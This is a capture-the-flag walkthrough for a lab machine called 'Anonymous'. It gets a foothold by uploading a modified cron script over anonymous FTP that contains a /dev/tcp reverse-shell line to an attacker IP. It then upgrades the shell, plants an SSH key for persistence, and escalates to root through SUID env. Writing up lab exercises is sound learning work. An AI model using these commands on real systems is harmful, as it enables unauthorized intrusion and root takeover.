




# Anonymous v6
**IP:** _10.10.221.147_
I did a nmap scan and found:
> 21 (ftp), anonymous is allowed<br>
> 22 (ssh)<br>
> 139, 445 (smb)<br>

I connected via ftp to the server. Here is what I found there in the scripts folder:<br>



I got these files.

*clean.sh*<br>
<br>

*removed_files.log*<br>
<br>

*removed_files.log* file is a part of *clean.sh* script. And if you look at the time when the *remove_files.log* was last changed you will notice that it was just changed, so we can suppose that *clean.sh* is scheduled to run (maybe every minute).<br>
We have permissions to put files on the ftp server.

I took the *clean.sh* file, changed it a little bit. Just added this line:<br>
`sh -i >& /dev/tcp/10.2.116.12/2222 0>&1`<br>
Connected to the ftp server, removed the original *clean.sh* and put my own. (Do not forget to set up nc listener.) The idea was that I would wait until the file would be executed and I would get a reverse-shell, but it did not work because the file does not have the permissions to be executed.<br>
Let's see what we got on the *smb server*
```
smbmap -H anonv6.thm

[+] Guest session       IP: anonv6.thm:445      Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        pics                                                    READ ONLY       My SMB Share Directory for Pics
        IPC$                                                    NO ACCESS       IPC Service (anonymous server (Samba, Ubuntu))
```
Let's check them out.<br>
pics:<br>
<br>
Nothing interesting. Doing some research I found what was my mistake. I connected to the ftp server removed *clean.sh* and then put there mine *clean.sh*, and these two actions changed permissions of the file and did not allow the system to run it. The right way to get the reverse-shell was just create a new *clean.sh* DO NOT remove current from the server and just put it there.
```
ftp anonv6.thm
anonymous:anonymous
put clean.sh
```
And now if you had a netcal listener listening, in my case on port 2222, after a couple of seconds I got we reverse-shell.

## Privilege Escalation
Fistly, I upgraded my reverse-shell with:<br>
`python3 -c "import pty; pty.spawn('/bin/bash')"`<br>
Then I created new ssh key-pair and connected via ssh in order that I have a pretty shell :smile:<br>
```
ssh-keygen # no password
cat ./.ssh/id_rsa.pub > authorized_keys
```
Then I copied `./.ssh/id_rsa` file to my machine in a file called `id_rsa` and set the right permissions and connected to it.<br>
```
chmod 600 id_rsa
ssh -i id_rsa namelessone@anonv6.thm
```
I went to my cheat sheet for privilege escalation [CheatSheet](https://github.com/0xt1m/ctf/blob/main/CheatSheet/privilge_escalation.md) and found there this command:<br>
```
find / -perm -u=s -type f 2>/dev/null
```
I gave out many responses but the interesting one for me was:<br>
`/usr/bin/env`<br>
I went to https://gtfobins.github.io/gtfobins, looked for `env` it found there SUID option for me, so I just executed the next command and got root.<br>
```
env /bin/sh -p
```

